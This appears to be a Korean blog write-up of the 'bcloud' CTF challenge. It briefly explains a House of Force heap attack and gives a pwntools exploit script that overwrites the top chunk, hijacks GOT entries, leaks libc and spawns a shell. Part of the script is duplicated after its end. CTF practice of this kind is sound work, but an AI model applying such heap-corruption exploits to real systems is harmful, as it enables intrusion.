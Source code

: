 간단한 house_of_force문제이다.

name을 입력하는 부분에서 heap 주소를 구할 수 있다.

그리고 Org와 Host를 입력하는 것을 잘 이용해 top_chunk를 덮을 수 있다.

Top_chunk를 덮었으므로 내가 원하는 주소를 할당받을수 있다.



32bit : "원하는 주소"-8-top_chunk주소

64bit : "원하는 주소"-16-top_chunk주소



note_size를 받는부분을 할당받아 note_list를 덮어서 적당히 exploit하면 된다.



<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div><div style="line-height:130%">61</div><div style="line-height:130%">62</div><div style="line-height:130%">63</div><div style="line-height:130%">64</div><div style="line-height:130%">65</div><div style="line-height:130%">66</div><div style="line-height:130%">67</div><div style="line-height:130%">68</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;new(size,content):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'---&gt;&gt;'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'content:\n'</span>,<span style="color:#066de2">str</span>(size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'content:\n'</span>,content)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;edit(idx,content):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;'</span>,<span style="color:#63a35c">'3'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'id:\n'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'content:\n'</span>,content)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;delete(idx):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;'</span>,<span style="color:#63a35c">'4'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'id:\n'</span>,<span style="color:#066de2">str</span>(idx))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;syn():</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;'</span>,<span style="color:#63a35c">'5'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>process(<span style="color:#63a35c">'./bcloud'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./bcloud'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>lambda&nbsp;x,y&nbsp;:&nbsp;r.sendlineafter(x,y)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>lambda&nbsp;x,y&nbsp;:&nbsp;r.sendafter(x,y)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>lambda&nbsp;x&nbsp;:&nbsp;r.recvuntil(x)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa(<span style="color:#63a35c">'name:\n'</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x40</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x40</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">heap_base<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u32(ru(<span style="color:#63a35c">'!'</span>).replace(<span style="color:#63a35c">'!'</span>,<span style="color:#63a35c">''</span>).ljust(<span style="color:#0099cc">4</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">8</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(heap_base))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa(<span style="color:#63a35c">'Org:\n'</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x40</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'Host:\n'</span>,p32(<span style="color:#0099cc">0xffffffff</span>))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">heap_list<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">0x804B120</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">note_size<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">0x804B0A0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">fake<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>note_size<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x8</span><span style="color:#a71d5d">-</span>(heap_base<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0xd8</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">4</span><span style="color:#a71d5d">-</span><span style="color:#0099cc">4</span><span style="color:#a71d5d">-</span><span style="color:#0099cc">7</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">new(fake,<span style="color:#63a35c">'\n'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p32(<span style="color:#0099cc">8</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">10</span><span style="color:#a71d5d">+</span>p32(heap_base<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x98</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p32(heap_base<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">8</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(<span style="color:#0099cc">0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">10</span><span style="color:#a71d5d">+</span>p32(e.got[<span style="color:#63a35c">'free'</span>])<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p32(e.got[<span style="color:#63a35c">'atoi'</span>])<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">new(<span style="color:#0099cc">0x100</span>,payload)</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">0</span>,p32(e.plt[<span style="color:#63a35c">'puts'</span>]))</div><div style="padding:0 6px; white-space:pre; line-height:130%">delete(<span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u32(r.recv(<span style="color:#0099cc">4</span>).ljust(<span style="color:#0099cc">4</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span>libc.symbols[<span style="color:#63a35c">'atoi'</span>]</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(libc_leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,p32(libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'system'</span>]))</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.recvuntil(<span style="color:#63a35c">'&gt;&gt;'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.sendline(<span style="color:#63a35c">'/bin/sh'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">0</span>,p32(e.plt[<span style="color:#63a35c">'puts'</span>]))</div><div style="padding:0 6px; white-space:pre; line-height:130%">delete(<span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u32(r.recv(<span style="color:#0099cc">4</span>).ljust(<span style="color:#0099cc">4</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span>libc.symbols[<span style="color:#63a35c">'atoi'</span>]</div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(libc_leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,p32(libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'system'</span>]))</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.recvuntil(<span style="color:#63a35c">'&gt;&gt;'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.sendline(<span style="color:#63a35c">'/bin/sh'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

